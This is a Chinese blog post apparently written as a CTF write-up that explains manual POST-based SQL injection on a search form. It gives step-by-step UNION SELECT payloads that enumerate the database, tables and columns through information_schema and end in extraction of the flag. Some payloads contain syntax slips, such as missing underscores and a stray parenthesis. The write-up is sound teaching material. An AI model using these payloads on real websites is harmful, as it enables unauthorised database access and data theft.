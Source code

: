 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SQL注入 --手工post          # 标题 
subtitle:   post注入   #副标题
date:       2020-03-13              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - SQL注入  
    
---
```


## 原理:
> 简单的说就是在post/getweb表单、输入域名或页面请求的查询字符串中插入SQL命令，最终使web服务器执行恶意命令的过程。
假设某网站页面显示时URL为--- http://www.xxx.com?test=123 ---，此时URL实际向服务器传递了值为123的变量test，这表明当前页面是对数据库进行动态查询的结果。由此，我们可以在URL中插入恶意的SQL语句并进行执行。

## 题目:
>
>一个简单的输入搜索框

## 考察点：
>sql注入中的post注入。
>一般有两种方式：
>第一种方式，通过burpsuit抓包存在一个文件中，然后通过sqlmap -r进行读取。
>第二种方式，通过手工注入，构造payload，进行union查询。如果通过手工注入，怎么分析注入点，怎么构造payload，怎么获取表名列名，怎么读取数据呢？

## 解题过程：
>1.首先查看网页源代码，发现是post方法，果断打开hackerbar。post注入是通过对输入框进行传参，可以被带入数据库进行的查询，
post注入的两个条件：1.用户可以控制传参，2.用户输入的语句被带入数据库进行查询。

>2.Post data 框 输入search=' ，发现页面出错，可知存在注入的可能。继续输入search=' and 1=1，发现依然报错，search=' and 1=1# 发现变回正常页面。证明存在注入点，可用'  #进行闭合。
>如何理解所构造的payload？
>
>OK,简单的解释一下SQL语句.我们搜索的内容是--- ' and 1=1 # ---,代入到数据库的语句是:--- select * from XXX where search = ' ' and 1=1 #' ---，搜索框开头输入的单引号闭合了原来前面的单引号，最后是一个#,注释了后面的单引号,数据库在执行语句的时候其实执行的是:--- select * from XXX where content = ' ' and 1=1 ---,这个语句理解就很简单了。

> 3.用order by 查询当前页面连接的列名个数：--- search=' order by 1# ---页面返回正常 ，直到4，页面开始出错，说明有3个。

> 4.使用union 联合查询 显错点，输出点，语句：--- search='  union select 1,2,3#  ---，页面爆出显位2，3。

> 5.OK,接下来的步骤就很容易了，利用hackerbar插件，构造--- search= ' Union Select 1,CONCAT_WS(0x203a20,USER(),DATABASE(),VERSION()),3# ---,得到数据库名为news。

> 6.接着获取表名，构造--- search= ' Union Select 1,group concat(table name),3 from information schema.tables where table schema= 0x6E657773 # ---，得到表名为f1agfl4gher3。

> 注意：这里需要把数据库名称“news”做了一个16进制Hex编码，编码之后为---0x6E657773 ---。
>7.同理获取列名：--- search= ' Union Select 1,group concat(column name),3 from information schema.columns where table name=0x66316167666C346768657233)# --- ，得到列名为h3r31sfl4g。

> 8.最后获取数据，--- search= ' Union Select 1,h3r31sfl4g,3 from f1agfl4gher3 # ---，得到flag！

> --- flag{sql_ information_ schema_ hack} ---





>[参考链接（一）：](https://www.fujieace.com/penetration-test/mysql-manual-injection.html)
>[参考链接（二）：](https://blog.csdn.net/qq_42097777/article/details/89088142)

## 谢谢您的查阅，欢迎来访！
